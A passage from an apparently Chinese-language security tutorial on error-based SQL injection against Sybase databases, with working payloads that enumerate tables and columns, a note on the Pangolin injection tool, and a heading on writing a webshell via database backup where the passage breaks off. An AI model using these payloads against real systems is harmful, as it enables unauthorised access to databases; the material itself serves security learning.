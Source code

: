 与MSSQL不同的一点：

MSSQL是xtype Sybase是type

![enter image description here](http://drops.javaweb.org/uploads/images/8bf35011b5cebffad339eb5744bc6e49c11ecbd1.jpg)

列表(只能用复杂版)：

```
id=1 and 1=convert(integer,(select MIN(ISNULL(CONVERT(NVARCHAR(4000),aaaa.name),CHAR(32))) from (select name from test.dbo.sysobjects where type=‘U’) AS aaaa where CONVERT(NVARCHAR(4000),aaaa.name)>‘ ’))

```

列出第一个表cmd

```
id=1 and 1=convert(integer,(select MIN(ISNULL(CONVERT(NVARCHAR(4000),aaaa.name),CHAR(32))) from (select name from test.dbo.sysobjects where type=‘U’) AS aaaa where CONVERT(NVARCHAR(4000),aaaa.name)>‘cmd’))

```

列出除cmd外的第一个表cmd0

![enter image description here](http://drops.javaweb.org/uploads/images/60a4cf765fab69027f76d4af0b299acb90127bb5.jpg)

列字段：

```
select name from test..syscolumns where id=object_id(‘users’) and colid=1  递增colid

```

即：

```
id=1 and 1=convert(integer,(select name from test..syscolumns where id=object_id('users') and colid=1))

```

![enter image description here](http://drops.javaweb.org/uploads/images/e480ab18ba57089012e2db592dec4a16cb0be12c.jpg)

工具注入：

![enter image description here](http://drops.javaweb.org/uploads/images/22a3d31bf3d4b486782c67db87eaa529ab5189e8.jpg)

穿山甲猜不出库名，抓包发现使用了TOP关键字，看来穿山甲只支持12.5.3以后的sybase

![enter image description here](http://drops.javaweb.org/uploads/images/57a9d8604621097de5c762867824b73fa1052087.jpg)

### 备份写文件（webshell）

前提条件：

1、备份服务打开
